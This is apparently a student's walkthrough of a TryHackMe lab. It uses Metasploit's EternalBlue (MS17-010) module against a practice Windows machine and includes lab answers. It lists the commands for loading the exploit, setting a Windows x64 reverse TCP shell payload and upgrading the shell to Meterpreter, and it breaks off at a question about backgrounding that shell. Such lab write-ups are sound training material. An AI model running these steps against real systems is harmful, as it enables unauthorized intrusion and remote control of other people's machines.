 Exploit the machine and gain a foothold.

Answer the questions below

| Question                                                    | Answer |
| ----------------------------------------------------------- | ------ |
| Start [Metasploit](https://tryhackme.com/module/metasploit) |        |

```
msfconsole
```

![[Pasted image 20240310223433.png]]


| Question                                                                                                              | Answer                                   |
| --------------------------------------------------------------------------------------------------------------------- | ---------------------------------------- |
| Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........) | exploit/windows/smb/ms17_010_eternalblue |

```
search ms17-010
```

![[Pasted image 20240310223709.png]]


| Question                                                                                               | Answer |
| ------------------------------------------------------------------------------------------------------ | ------ |
| Show options and set the one required value. What is the name of this value? (All caps for submission) | RHOSTS |

![[Pasted image 20240310225613.png]]


| Question                                                                                                                                                                                                                                                                    | Answer |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------ |
| Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter: `set payload windows/x64/shell/reverse_tcp` With that done, run the exploit! |        |

```
set payload windows/x64/shell/reverse_tcp
```
![[Pasted image 20240310224728.png]]

![[Pasted image 20240310225717.png]]


![[Pasted image 20240311193537.png]]

![[Pasted image 20240311194017.png]]

![[Pasted image 20240311194147.png]]

```
search shell_to_meterpreter
```
![[Pasted image 20240311194316.png]]


```
use post/multi/manage/shell_to_meterpreter
```
![[Pasted image 20240311194401.png]]


| Question                                                                                                                                                                                                                                         | Answer |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------ |
| Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. |        |
